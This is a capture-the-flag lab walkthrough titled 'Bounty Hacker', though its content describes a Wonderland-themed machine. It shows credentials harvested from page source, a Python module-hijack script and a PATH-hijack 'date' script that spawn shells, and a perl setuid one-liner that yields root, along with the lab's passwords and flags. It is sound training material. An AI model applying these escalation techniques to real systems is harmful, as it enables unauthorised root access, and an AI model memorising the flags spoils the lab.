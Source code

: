 <head>
<h1><center>Bounty Hacker</center></h1>
</head>

## Description

<img src="./images/des.png">

<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are two open ports on the machine.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

<img src="./images/web.png" width="500">

Directory Scan shows

```
200      GET      http://10.10.234.26/main.css
301      GET      http://10.10.234.26/index.html
200      GET      http://10.10.234.26/img/white_rabbit_1.jpg
200      GET      http://10.10.234.26/
200      GET      http://10.10.234.26/img/alice_door.png
200      GET      http://10.10.234.26/img/
301      GET      http://10.10.234.26/img/index.html
200      GET      http://10.10.234.26/r/a/b/b/i/t/
```

After wandering around the website, I found the creds for user `alice` in the source code of the page `/r/a/b/b/i/t/`.

<img src="./images/creds.png">

<br>


## SSH

Using the credentials we got in the source code, we can login to SSH.

```
username: alice
password: HowDothTheLittleCrocodileImproveHisShiningTail
```

Now first things first, I checked the users on the machine

```
1. root
2. hatter
3. rabbit
4. alice
5. tryhackme
```

I checked for the **SUID** bits but nothing useful.
But `sudo -l` showed something interesting.

```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Here alice can run the above python script as user `rabbit`.

## Alice

The Python script consists of a poem of around 100 lines.
It is using `random` module to select 10 lines and print them.

```
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Here we need a bit of understanding about importing modules..
Whenever a module is imported, python interpreter checks the current directory for the module and then proceeds for the PATH.

So we can abuse this by creating our own random module. 

This is the script `random.py`

```
import os

def choice(arg):
    os.system("/bin/bash")
```

If we run `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` we get the shell as user `rabbit`.

<br>

## Rabbit

Checking the rabbit's home directory shows a compiled binary `teaParty` owned by user `hatter` with **SUID** bit set on it..🥳
Decompiling the binary, we can see that it is using `date` command without absolute path.

<img src="./images/decompile.png">

We can use this to get the shell as the user `hatter`.
As we did earlier with the module random, we can create our own date script and add that directory at the start of **$PATH**.
This invokes our script instead of the actual `date` binary.

script

```
#!/usr/bin/python3.6

import os
os.system("/bin/bash")
```

Here since we have write permissions on the `/home/rabbit/` directory, I am creating the script there.
Else we have to do this in `/tmp`.

Don't forget to give the execute perms.

> chmod +x date

To add the path to **$PATH** we run the following command.

```
export PATH=/home/rabbit:$PATH
```

Now running the above script gives us the shell as user `hatter`

<br>

## Hatter

When we check the home directory of the user `hatter` we can see his password.

```
WhyIsARavenLikeAWritingDesk?
```

Now this is where I have taken most of the time..

At last I used [linpeas](https://linpeas.sh).
There is an interesting result

<img src="./images/linpeas.png" width="400">

Here `perl` has **CAP_SETUID** capability set on it.

Heading over to GTFObins gave this command

```
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

We need to run the above command in `/usr/bin/`.
That gives us root shell..💀

<br>

user flag

```
thm{"Curiouser and curiouser!"}
```

root flag 

```
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```
